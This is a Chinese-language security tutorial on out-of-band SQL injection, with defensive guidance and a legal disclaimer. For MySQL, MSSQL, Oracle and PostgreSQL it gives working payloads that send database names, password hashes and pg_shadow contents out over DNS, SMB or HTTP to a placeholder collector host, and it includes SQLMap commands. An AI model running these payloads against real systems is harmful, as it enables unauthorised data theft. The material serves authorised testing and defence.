




## 引言

传统SQL注入依赖页面回显（Union）或盲注逐字符猜解。当目标屏蔽回显且网络允许时，**Out-of-Band（OOB）外带注入**将数据通过DNS/HTTP/SMB带外信道传出，绕开前端，把盲注升级为"半显式"攻击。本文梳理各数据库OOB技法、DNSLOG原理、SQLMap实战与防御。

---

## 核心思想

传统注入数据走HTTP响应；OOB由数据库主动发起外连（DNS查询、UNC路径、HTTP请求），将数据编码在协议载荷中：



---

## DNSLOG原理

DNS是首选OOB信道：UDP 53极少被拦截、查询可携带任意子域名、递归解析保证到达攻击者NS。流程：注册DNSLOG平台 → Payload拼接 `<data>.attacker.com` → 数据库触发 `gethostbyname` → DNSLOG记录 → 攻击者轮询API解码。



| 平台 | 特点 |
|------|------|
| ceye.io | 注册即送二级域名，支持DNS/HTTP/TCP |
| Burp Collaborator | Burp内置，全协议，HTTPS上下文复用 |
| Interactsh | 开源，自托管，API友好 |

---

## 各数据库OOB技法

### 一、MySQL

LOAD_FILE + UNC路径（Windows）利用UNC解析自动触发DNS与SMB：

```sql
-- 验证注入点
SELECT LOAD_FILE(CONCAT('\\\\', DATABASE(), '.your-id.ceye.io\\abc'));

-- 拖表名（GROUP_CONCAT拼接多行）
SELECT LOAD_FILE(CONCAT('\\\\',
  (SELECT GROUP_CONCAT(table_name SEPARATOR '_')
   FROM information_schema.tables WHERE table_schema=DATABASE()),
  '.your-id.ceye.io\\abc'));

-- 拖字段（hex编码避免特殊字符破坏域名）
SELECT LOAD_FILE(CONCAT('\\\\',
  HEX((SELECT password FROM users LIMIT 1)), '.your-id.ceye.io\\abc'));
```

**前提**：MySQL on Windows；`secure_file_priv` 为空或宽松；`FILE` 权限。受限时尝试UDF外带。

---

### 二、MSSQL

MSSQL得益于大量扩展存储过程，OOB手段最丰富。

**xp_dirtree** —— 接受UNC路径自动触发SMB/DNS：

```sql
DECLARE @h VARCHAR(800);
SET @h = SUBSTRING(@@version,1,40) + '.your-id.ceye.io';
EXEC master..xp_dirtree '\\' + @h + '\foo';

-- 游标逐行枚举
DECLARE @d VARCHAR(100), @c VARCHAR(200);
DECLARE cur CURSOR FOR SELECT name FROM sys.databases;
OPEN cur; FETCH NEXT FROM cur INTO @d;
WHILE @@FETCH_STATUS = 0
BEGIN
    SET @c = 'master..xp_dirtree ''\\' + @d + '.your-id.ceye.io\foo''';
    EXEC(@c); FETCH NEXT FROM cur INTO @d;
END
CLOSE cur; DEALLOCATE cur;
```

**xp_fileexist / xp_subdirs**：

```sql
EXEC master..xp_fileexist '\\' + DB_NAME() + '.your-id.ceye.io\foo';
EXEC master..xp_subdirs '\\' + SYSTEM_USER + '.your-id.ceye.io\foo';
```

**OLE自动化对象（HTTP外带）与 sp_makewebtask**：

```sql
-- OLE HTTP
DECLARE @o INT, @u VARCHAR(200);
SET @u = 'http://your-id.ceye.io/' + DB_NAME();
EXEC sp_OACreate 'MSXML2.ServerXMLHTTP', @o OUT;
EXEC sp_OAMethod @o, 'open', NULL, 'GET', @u, false;
EXEC sp_OAMethod @o, 'send';

-- sp_makewebtask（旧版本可用）
EXEC sp_makewebtask @outputfile='\\your-id.ceye.io\share\out.html',
  @query='SELECT * FROM users';
```

---

### 三、Oracle

```sql
-- UTL_HTTP（HTTP外带）
DECLARE req UTL_HTTP.REQ; resp UTL_HTTP.RESP; url VARCHAR2(2000);
BEGIN
  SELECT 'http://your-id.ceye.io/' ||
    (SELECT username FROM all_users WHERE ROWNUM=1) INTO url FROM dual;
  req := UTL_HTTP.BEGIN_REQUEST(url);
  resp := UTL_HTTP.GET_RESPONSE(req);
  UTL_HTTP.END_RESPONSE(resp);
END;
/

-- UTL_INADDR（DNS解析外带）
SELECT UTL_INADDR.GET_HOST_ADDRESS(
  (SELECT username FROM all_users WHERE ROWNUM=1) || '.your-id.ceye.io'
) FROM dual;

-- HTTPURITYPE（最简洁HTTP外带）
SELECT HTTPURITYPE(
  'http://your-id.ceye.io/' || (SELECT name FROM v$database)
).GETCLOB() FROM dual;

-- DBMS_LDAP
DECLARE s DBMS_LDAP.SESSION;
BEGIN
  s := DBMS_LDAP.INIT(
    (SELECT password FROM sys.user$ WHERE ROWNUM=1) || '.your-id.ceye.io', 389
  );
END;
/
```

---

### 四、PostgreSQL

```sql
-- COPY TO PROGRAM（需superuser）
COPY (SELECT * FROM pg_shadow)
TO PROGRAM 'curl --data-binary @- http://your-id.ceye.io/data';

-- dblink扩展
CREATE EXTENSION dblink;
SELECT dblink_connect(
  'host='||current_database()||'.your-id.ceye.io port=5432 dbname=postgres'
);

-- plpythonu自定义函数
CREATE FUNCTION dns_exfil(data TEXT) RETURNS VOID AS $$
  import socket; socket.gethostbyname(data + '.your-id.ceye.io')
$$ LANGUAGE plpythonu;
SELECT dns_exfil((SELECT passwd FROM pg_shadow LIMIT 1));
```

---

## DNS隧道局限：63字符标签限制

RFC 1035规定DNS标签不超过63字节，单次查询最多携带63有效字符。

### 应对策略

**SUBSTRING分片**（每轮63字符）：

```sql
DECLARE @i INT = 1, @chunk VARCHAR(63), @cmd VARCHAR(200);
WHILE @i <= LEN((SELECT password FROM users WHERE id=1))
BEGIN
    SET @chunk = SUBSTRING((SELECT password FROM users WHERE id=1), @i, 63);
    SET @cmd = 'master..xp_dirtree ''\\' + @chunk
             + '.idx-' + CAST(@i AS VARCHAR) + '.your-id.ceye.io\foo''';
    EXEC(@cmd); SET @i = @i + 63;
END;
```

**十六进制编码**：用 `hex()` / `CONVERT(VARBINARY)` 编码结果，避免空格和特殊字符破坏域名合法性。

**多级标签**：利用 `part1.part2.attacker.com` 结构一次携带更多信息（每级独立63上限）。

---

## SQLMap实战：`--dns-domain`

SQLMap内置DNS外带，一条参数将盲注升级为DNS漏出：

```bash
# ceye.io
sqlmap -u "http://target.com/page.php?id=1" \
  --dns-domain "your-id.ceye.io" --technique=B --current-db

# Burp Collaborator + 高级参数
sqlmap -u "http://target.com/page.php?id=1" \
  --dns-domain "abc.burpcollaborator.net" --dbs --delay 2 --dns-port 5353
```

### 工作流程



### 实战总流程



---

## 常见坑点

**出站防火墙**：数据库须能出站DNS/HTTP/SMB。企业内网策略、云安全组（AWS SG默认禁UDP 53出站）、容器NetworkPolicy均可阻断。

**MySQL `secure_file_priv`**（5.7+）：`SHOW VARIABLES LIKE 'secure_file_priv'` → `NULL` 则文件操作完全禁用；空串允许UNC外带。

**特殊字符**：DNS域名仅允许 `[a-zA-Z0-9\-]`，空格/`@`/`#` 须hex编码：
```sql
SELECT master..xp_dirtree '\\' +
  CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), @@version), 2)
  + '.your-id.ceye.io\foo';
```

**DNS缓存**：域名拼接时间戳/随机数确保唯一，防止缓存导致不发出查询。

**SMB版本**：Win10+/Server2016+默认禁用SMBv1，MySQL UNC路径可能协商失败。

---

## 防御措施

### 开发侧

- **参数化查询（Prepared Statement）**：根治注入的唯一正解
- **最小权限**：数据库账户不持有 `FILE`/`SUPER`/`sysadmin`
- **禁用危险存储过程**：

```sql
-- MSSQL
EXEC sp_dropextendedproc 'xp_cmdshell';
EXEC sp_dropextendedproc 'xp_dirtree';
EXEC sp_dropextendedproc 'xp_fileexist';
-- Oracle
REVOKE EXECUTE ON UTL_HTTP FROM PUBLIC;
REVOKE EXECUTE ON UTL_INADDR FROM PUBLIC;
REVOKE EXECUTE ON DBMS_LDAP FROM PUBLIC;
```

### 运维侧

- **出站白名单**：数据库仅在业务必需时允许出站，封禁非必要DNS/HTTP/SMB
- **DNS安全监控**：IDS/IPS对非授权域名查询告警，关注超长随机子域名特征
- **数据库审计日志**：记录所有存储过程调用与异常网络访问
- **SIEM规则参考**：`dns.query.length > 40 AND NOT IN known_domains | stats count by src_ip | where count > 10`

---

## 技术对比

| 维度 | Union | 布尔盲注 | 时间盲注 | **OOB外带** |
|------|-------|----------|----------|-------------|
| 速度 | 秒级 | 分钟级 | 小时级 | 分钟级 |
| 依赖条件 | 页面回显 | 二态差异 | 无 | 数据库可出站 |
| 隐蔽性 | 低 | 中 | 中 | 高 |
| 绕过WAF | 困难 | 较易 | 较易 | 容易（载荷在网络层触发） |

OOB外带价值不在于提速，更在于**将不可能变为可能**——当目标无回显、无状态差异且时间盲注耗时过长时，只要数据库能出网，数据就能外传。

---

## 免责声明

> 本文所述技术仅供安全研究与授权渗透测试使用。未经系统所有者明确书面授权，对任何计算机系统实施本文所描述的攻击行为均属违法，可能触犯《中华人民共和国网络安全法》《刑法》第285条/第286条等相关法律。作者不对任何滥用本文技术造成的法律后果承担责任。学习安全技术是为了更好地防御，而非攻击。请在合法实验环境（DVWA、SQLi-Labs、PentesterLab等）中实践，绝不触碰未授权目标。
